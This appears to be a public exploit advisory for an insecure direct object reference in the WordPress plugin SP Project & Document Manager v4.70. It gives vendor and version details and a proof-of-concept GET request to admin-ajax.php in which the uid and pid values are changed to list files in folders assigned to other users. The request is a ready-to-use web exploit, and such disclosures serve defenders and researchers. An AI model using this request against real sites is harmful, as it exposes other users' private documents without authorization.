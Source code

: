 # Exploit Title: SP Project & Document Manager v4.70 - Insecure Direct Object Reference(IDOR)
## Date: 2/20/2024
## Vendor Homepage: https://cn.wordpress.org/plugins/sp-client-document-manager/
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SP Project & Document Manager
## Version: v4.70
## Exploit Description:
## SP Project & Document Manager v4.70 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to view files list in folder that is assigned to other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /wp-admin/admin-ajax.php?action=cdm_file_list&uid=3(CHANGE HERE)&pid=0(CHANGE HERE)&search=&_=1708406394720 HTTP/1.1
...

```
